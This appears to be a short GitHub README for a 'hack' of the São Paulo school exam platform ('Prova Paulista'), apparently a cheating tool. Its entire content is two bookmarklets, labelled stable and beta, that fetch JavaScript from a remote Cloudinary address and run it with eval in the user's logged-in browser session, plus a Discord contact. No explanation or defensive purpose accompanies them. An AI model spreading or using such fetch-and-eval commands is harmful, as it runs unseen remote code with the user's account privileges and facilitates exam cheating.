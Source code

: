 # 🚀 HCK - PROVA PAULISTA 

## Version Stable:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
## Version Beta v2:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745546662/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
